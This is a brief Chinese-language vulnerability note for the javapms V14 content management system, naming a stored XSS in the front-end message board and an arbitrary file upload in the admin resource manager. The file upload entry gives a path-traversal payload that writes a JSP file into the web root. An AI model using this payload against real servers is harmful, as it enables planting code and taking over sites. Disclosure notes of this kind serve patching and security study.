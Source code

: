 # javapmsV14漏洞集合
`@Time   : 2020/7/28 16:07`
`@Author : 852782749@qq.com`


```
开始编辑～
```
### 前台留言板存储型xss

### 后台->系统管理->资源管理任意文件上传
```angular2html
payload:
filename=../../../../../ROOT/123.jsp&source=&path=%2Fimg
```




> 乾坤未定，你我皆是黑马